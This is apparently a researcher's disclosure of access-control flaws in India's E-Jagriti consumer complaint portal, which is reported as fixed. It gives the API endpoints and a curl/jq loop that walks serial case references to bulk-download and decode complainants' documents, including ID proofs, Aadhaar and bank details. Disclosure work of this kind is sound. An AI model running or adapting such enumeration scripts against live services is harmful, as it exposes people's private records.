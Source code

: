 ```yaml
---
title: E-Jagriti portal vulnerabilities 2025
date:
    created: 2025-08-14
    updated: 2025-09-12
---
```


The EJagriti portal (<https://e-jagriti.gov.in>), which is an upgrade of
e-daakhil portal, is mandatory for consumer complaint filing and tracking.
Any complaint has to be uploaded on this portal before submitting it to the
consumer commission registry. It is developed and maintained by NIC(<https://nic.gov.in>)
and content owned by the Department Of Consumer Affairs, Ministry Of Consumer Affairs,
Food & Public Distribution, Government Of India.

These vulnerabilities allowed access to all case
documents (including sensitive information such as ID proofs, affidavits with
sign, complaint details, and depending on the case: medical records, bank
details, purchase details, land records etc. ) in a trivial manner. Further,
the case reference ID, being a serially increasing number, allowed serial
access to all other users' case documents.

Summary of the vulnerabilities

| Sr | API  | Date reported | Date fixed | Days taken | CERT-in reference number |
|----|------|---------------|------------|------------|--------------------------|
| 1  | [CaseFilingDocumentDetails](#1-casefilingdocumentdetails) | 31 May 2025 | Partial fix before 17 June. Full fix never confirmed to me. Guessing July | 18-47 | 38480225 |
| 2  | [getAllComplainantRespondantDetails](#2-getallcomplainantrespondantdetails) | 31 May 2025 | Partial fix before 17 June. Full fix never confirmed to me. Guessing July | 18-47 | 38480225 |

Root cause in [OWASP](https://cheatsheetseries.owasp.org/index.html) terms:

- A01 2021 Broken Access Control: CWE-35 Path Traversal, CWE-284 Improper
  Access Control, CWE-285 Improper Authorization
- A04 2021 Insecure Design: Insecure Direct Object Reference
- A07 2021 Identification and Authentication Failures: CWE-287 Improper
  Authentication, CWE-613 Insufficient Session Expiration

<!-- more -->

In my <https://pgportal.gov.in> complaint and appeal, I was assured that after fixing
the issue, they will reach out to me for verification. But that hasn't
happened as of the date of 12 September 2025. In a public "jansunwai" in the
last week of August, the e-jagriti officers confirmed to me that they have
fixed the issue and I can proceed with the public release of this report.

### 1. CaseFilingDocumentDetails

This API accepted a query parameter `fillingReferenceNumber` and retrieves
details about the case filing documents, masked as `$$$$`. This case
reference is simply a date in format `YYYYMMDD` followed by a 4 digit
serially increasing number, xxxx starting from 0001.

This API returned the following files:

1. the memo of parties which contains PII of the complainant, address, phone
number, email ID, etc.,
2. complaint itself which contains sensitive information like bank account details,
Aadhaar number, policy number, income information,
3. Signed annexures which have identity proofs, signature, affidavit, etc.
4. Judgement and orders related to the case.
5. Any replies or rejoinders filed by the complainant or the opposite party.

Simply opening this URL in the browser was enough

```bash title="sample_urls.sh" linenums="1"
https://e-jagriti.gov.in/services/case/caseFilingService/v2/getCaseFillingDocumentDetails?fillingReferenceNumber=$$$$
```

However, for decoding the base64-encoded files, this is a sample script.
The output contained an array of objects (accessible via `jq` (<https://jqlang.org/>))
which had base64 encoded file, which can be decoded to get the actual PDF or image file.

```bash title="sample_script.sh" linenums="1" hl_lines="1 4 11"
for reference in {$$$$$$$$..$$$$$$$$}; do
    timestamp=$(date '+%F_%T')
    outname="output_doc_${reference}_${timestamp}"
    curl -v 'https://e-jagriti.gov.in/services/case/caseFilingService/v2/getCaseFillingDocumentDetails?fillingReferenceNumber=$$$$'"$reference" \
    -o "${outname}.json"

    jq '.' "${outname}.json" > "${outname}_pretty.json"

    jq -r '.data.caseFillingDocumentDetailsResponseList[] | "\(.fileName)\t\(.fileContent)"' "${outname}.json" | while IFS=$'\t' read -r fileName fileContent; do
        echo "${fileContent}" > "${outname}_files_${fileName}.txt"
        base64 --decode "${outname}_files_${fileName}.txt" > "${outname}_files_${fileName}.pdf"
    done
done
```

### 2. getAllComplainantRespondantDetails

This API differs from the above in that this output is machine readable JSON
text. The above API returns a document which contained the document.

This API returned the following data:

1. the personal contact details of parties which contained address, phone
number, email ID, etc.

```bash title="sample_urls.sh" linenums="1"
https://e-jagriti.gov.in/services/case/caseFilingService/v2/getAllComplainantRespondantDetails?filingReferenceNumber=$$$$
```
